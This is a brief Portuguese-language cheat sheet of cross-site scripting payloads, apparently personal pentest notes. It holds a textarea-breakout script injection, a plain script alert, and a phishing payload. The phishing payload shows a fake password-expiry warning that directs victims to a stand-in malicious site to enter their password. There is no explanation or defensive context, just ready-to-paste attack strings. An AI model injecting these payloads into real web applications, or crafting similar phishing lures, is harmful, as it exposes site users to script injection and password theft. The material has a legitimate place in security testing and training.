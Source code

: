 ### XSS

Alert em campo de texto:

    </textarea><script>alert('XSS');</script>

Alert simples:

    <script>alert('XSS');</script>

Phishing no alert:

    </textarea><script>alert('Atenção! Sua senha está prestes a expirar, portanto é obrigatória a renovação de senha para evitar problemas com a sua conta. Acesse http://sitemalicioso.net e renove agora mesmo sua senha!');</script>

    teste